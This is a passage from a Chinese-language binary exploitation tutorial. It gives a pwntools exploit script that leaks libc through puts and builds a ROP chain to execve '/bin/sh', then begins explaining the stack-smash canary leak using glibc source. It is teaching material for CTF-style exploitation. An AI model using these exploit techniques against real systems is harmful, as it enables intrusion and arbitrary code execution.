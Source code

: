 ```python
#  DEBUG("b *0x4006B9\nc")
io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))
libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']
success("libc.address -> {:#x}".format(libc.address))

pop_rdi_ret=0x400793
'''
$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"
0x00000000000f5279 : pop rdx ; pop rsi ; ret
'''
pop_rdx_pop_rsi_ret=libc.address+0xf5279


payload=flat(['22222222', pop_rdi_ret, next(libc.search("/bin/sh")),pop_rdx_pop_rsi_ret,p64(0),p64(0), libc.sym['execve'], (80 - 7*8 ) * '2', stack - 0x30, 0x4006be])

io.sendafter(">", payload)

io.interactive()
```

总的来说这种方法跟 stack pivot 差别并不是很大

### 参考阅读

- [http://www.xfocus.net/articles/200602/851.html](http://www.xfocus.net/articles/200602/851.html)
- [http://phrack.org/issues/58/4.html](http://phrack.org/issues/58/4.html)

## Stack smash

### 原理


在程序加了canary 保护之后，如果我们读取的 buffer 覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。而 stack smash 技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序启动 canary 保护之后，如果发现 canary 被修改的话，程序就会执行 __stack_chk_fail 函数来打印 argv[0] 指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下

```C
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```
